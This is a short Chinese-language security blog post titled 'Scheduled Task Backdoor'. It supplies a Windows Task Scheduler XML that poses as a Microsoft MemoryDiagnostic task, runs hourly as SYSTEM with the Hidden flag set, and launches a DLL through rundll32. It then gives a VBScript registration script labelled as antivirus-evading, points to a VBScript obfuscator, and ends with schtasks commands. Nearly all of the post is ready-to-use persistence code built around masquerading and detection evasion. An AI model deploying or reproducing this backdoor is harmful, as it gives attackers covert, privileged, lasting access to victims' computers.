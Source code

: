 ```yaml
---
author: XhstormR
categories:
- security
date: 2019-10-04T14:00:20+08:00
title: 计划任务 Backdoor
---
```


<!--more-->

Updated on 2019-10-04

## 123.xml
```xml
<?xml version="1.0" ?>
<Task xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Source>Microsoft Corporation</Source>
    <Author>Microsoft Corporation</Author>
    <URI>\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents</URI>
  </RegistrationInfo>
  <Triggers>
    <TimeTrigger>
      <Repetition>
        <Interval>PT1H</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2000-01-01T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
    </TimeTrigger>
  </Triggers>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>0</Priority>
  </Settings>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>%windir%\system32\rundll32.exe</Command>
      <Arguments>main.dll msg</Arguments>
    </Exec>
  </Actions>
</Task>
```

### Reference
* https://docs.microsoft.com/zh-cn/windows/win32/taskschd/task-scheduler-schema
* https://docs.microsoft.com/zh-cn/windows/security/identity-protection/access-control/security-identifiers

## 注册任务

### 脚本（免杀）

#### 123.vbs

```
Set service = CreateObject("Schedule.Service")
service.Connect

Set file = CreateObject("Scripting.FileSystemObject").OpenTextFile("123.xml")
text = file.ReadAll
file.Close

Set rootFolder = service.GetFolder("\")
rootFolder.RegisterTask "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents", text, 6, , , 5
```

```bash
cscript.exe //Nologo 123.vbs

wscript.exe：输出至 Windows，
cscript.exe：输出至 Console。
```

#### Reference
* https://ss64.com/vb/filesystemobject.html
* https://docs.microsoft.com/zh-cn/dotnet/api/microsoft.visualbasic.constants
* https://docs.microsoft.com/zh-cn/office/vba/language/reference/user-interface-help/filesystemobject-object
* https://github.com/DoctorLai/VBScript_Obfuscator

### 工具
```
schtasks.exe /create /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /f /xml 123.xml
schtasks.exe /query  /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /v /fo list
schtasks.exe /delete /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /f
```

